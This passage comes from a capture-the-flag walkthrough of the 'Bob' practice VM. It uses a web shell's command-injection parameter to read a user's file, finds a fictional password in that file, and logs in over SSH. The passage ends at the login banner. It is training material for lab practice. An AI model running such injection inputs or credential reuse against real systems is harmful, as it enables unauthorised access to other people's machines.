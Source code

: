 ![shell cmd](./docs/bob/bob_03_shellcmd.png)

*Alternatively, you can use Burp Repeater for a cleaner output.*<br><br>

Now that we have a list of users, we can browse around for interesting files. In the "elliot" home folder, we find a file labled "theadminisdumb.txt" (this is important later):<br><br>

```
in_command=more /home/elliot/theadminisdumb.txt

::::::::::::::
/home/elliot/theadminisdumb.txt
::::::::::::::
﻿The admin is dumb,
In fact everyone in the IT dept is pretty bad but I can’t blame all of them the newbies Sebastian and James are quite new to managing a server so I can forgive them for that password file they made on the server. But the admin now he’s quite something. Thinks he knows more than everyone else in the dept, he always yells at Sebastian and James now they do some dumb stuff but their new and this is just a high-school server who cares, the only people that would try and hack into this are script kiddies. His wallpaper policy also is redundant, why do we need custom wallpapers that doesn’t do anything. I have been suggesting time and time again to Bob ways we could improve the security since he “cares” about it so much but he just yells at me and says I don’t know what i’m doing. Sebastian has noticed and I gave him some tips on better securing his account, I can’t say the same for his friend James who doesn’t care and made his password: Qwerty. To be honest James isn’t the worst bob is his stupid web shell has issues and I keep telling him what he needs to patch but he doesn’t care about what I have to say. it’s only a matter of time before it’s broken into so because of this I have changed my password to

theadminisdumb

I hope bob is fired after the future second breach because of his incompetence. I almost want to fix it myself but at the same time it doesn’t affect me if they get breached, I get paid, he gets fired it’s a good time.
```

## Step 4: SSH and privilege escalation
<br>

Apparently, we have our first set of credentials: **elliot : theadminisdumb**. Attempting to login through SSH was successful!<br><br>

```
ssh elliot@bob.vh -p 25468
The authenticity of host '[bob.vh]:25468 ([172.16.250.95]:25468)' can't be established.
ECDSA key fingerprint is SHA256:6836S02YTRSutf2d8Ay4p5JZKyLjfVMb0O0h4FdycQM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[bob.vh]:25468,[172.16.250.95]:25468' (ECDSA) to the list of known hosts.
  __  __ _ _ _                        _____                          
 |  \/  (_) | |                      / ____|                         
 | \  / |_| | |__  _   _ _ __ __ _  | (___   ___ _ ____   _____ _ __ 
 | |\/| | | | '_ \| | | | '__/ _` |  \___ \ / _ \ '__\ \ / / _ \ '__|
 | |  | | | | |_) | |_| | | | (_| |  ____) |  __/ |   \ V /  __/ |   
 |_|  |_|_|_|_.__/ \__,_|_|  \__, | |_____/ \___|_|    \_/ \___|_|   
                              __/ |                                  
```